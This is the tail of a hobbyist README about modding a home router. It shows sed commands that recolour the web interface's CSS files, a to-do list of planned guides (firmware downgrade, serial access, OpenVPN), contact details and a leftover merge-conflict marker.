    sed -i s/'ccc'/'66ffe1'/g responsive.css; sed -i s/'ccc'/'66ffe1'/g lte-doctor.css; sed -i s/'ccc'/'66ffe1'/g chosen.css; 
    sed -i s/'ccc'/'66ffe1'/g mobiled.css; sed -i s/'ccc'/'66ffe1'/g gw.css; sed -i s/'ccc'/'66ffe1'/g responsive.css; 
    sed -i s/'ccc'/'66ffe1'/g lte-doctor.css; sed -i s/'ccc'/'66ffe1'/g chosen.css; sed -i s/'ccc'/'66ffe1'/g mobiled.css; 
    sed -i s/'d9d9d9'/'222222'/g gw.css; sed -i s/'d9d9d9'/'222222'/g responsive.css; sed -i s/'0088cc'/'#5ebe8d'/g gw.css;
    sed -i s/'d9d9d9'/'222222'/g lte-doctor.css; sed -i s/'d9d9d9'/'222222'/g chosen.css; sed -i s/'0088cc'/'#5ebe8d'/g responsive.css; 
    sed -i s/'0088cc'/'#5ebe8d'/g lte-doctor.css; sed -i s/'0088cc'/'#5ebe8d'/g chosen.css

## Todo in upcomming updates:

     Add how-to downgrade/upgrade firmware
     Add how-to get access via serial port and how-to short circuit compononents to get rid of read only rom
     Add how-to it is possible to get openvpn running
     Add how-to get rid of OPKG and fix JFFS2

#### 'Bah wuseman, i am already an pro expert, provide something useful for me?'
     I will do asap i got time. I will add a how-to for LUCI WEBGUI and you will 
     gain FULL access to your router for real!! (requires more then 8mb flash):

### Have fun and be careful with other settings not provided by me! ;)

# CONTACT

     If you have problems, questions, ideas or suggestions please contact
     us by posting to info@sendit.nu

# WEB SITE

     Visit our homepage for the latest info and updated tools

     https://sendit.nu & https://github.com/wuseman/

### END!

>>>>>>> ef568bec449e3893a3fe269ab2f23f5d8bc7e815
